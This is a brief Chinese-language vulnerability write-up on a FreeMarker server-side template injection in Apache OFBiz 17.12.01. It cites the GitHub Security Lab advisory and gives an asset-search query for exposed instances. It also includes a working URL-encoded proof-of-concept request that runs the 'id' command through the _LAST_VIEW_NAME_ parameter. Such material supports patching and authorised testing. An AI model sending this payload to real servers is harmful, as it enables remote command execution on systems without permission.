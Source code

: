 # Apache OfBiz 服务器端模板注入 SSTI

## 漏洞描述

Apache OfBiz 17.12.01容易受到服务器端模板注入（SSTI）的影响，从而导致远程代码执行（RCE）。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-067-apache_ofbiz

## 漏洞影响

```
Apache OfBiz 17.12.01
```

## 网络测绘

```
app="Apache_OFBiz"
```

## 漏洞复现

服务器端模板注入 renderLookupField

从不可信数据流request.getParameter("`_LAST_VIEW_NAME_`")给一个FreeMarker的宏调用定义。具有特权以渲染任何包含查找字段的页面的攻击者将能够通过发送有效载荷来执行任意系统命令。

poc：

```
https://localhost:8443/ordermgr/control/FindQuote?_LAST_VIEW_NAME_=%22%2F%3E%24%7B%22freemarker.template.utility.Execute%22%3Fnew%28%29%28%22id%22%29%7D%3CFOO
```

